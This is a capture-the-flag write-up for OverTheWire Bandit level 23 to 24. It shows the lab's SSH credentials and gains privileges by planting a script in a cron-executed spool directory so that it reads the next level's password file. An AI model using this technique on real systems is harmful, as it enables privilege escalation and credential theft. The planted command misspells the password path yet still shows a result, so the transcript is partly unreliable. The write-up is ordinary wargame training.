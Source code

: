 # Level 23 - Level 24
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
## Datos de acceso al nivel
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
bandit23@bandit:/$ mkdir /tmp/Eror4756
bandit23@bandit:/$ cd /tmp/Eror4756
bandit23@bandit:/tmp/Eror4756$ echo "cat /etc/bandit_pass/bandit24 > /tmp/Eror4756/password"
cat /etc/bandir_pass/bandit24 > /tmp/Eror4756/password
bandit23@bandit:/tmp/Eror4756$ ls
bandit23@bandit:/tmp/Eror4756$ echo "cat /etc/bandir_pass/bandit24 > /tmp/Eror4756/password" > script.sh
bandit23@bandit:/tmp/Eror4756$ ls
script.sh
bandit23@bandit:/tmp/Eror4756$ chmod 777 script.sh
bandit23@bandit:/tmp/Eror4756$ touch password
bandit23@bandit:/tmp/Eror4756$ chmod 666 password
bandit23@bandit:/tmp/Eror4756$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/Eror4756$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
## Notas adicionales
mktemp genera una carpeta temporal con un nombre genérico
## Referencias
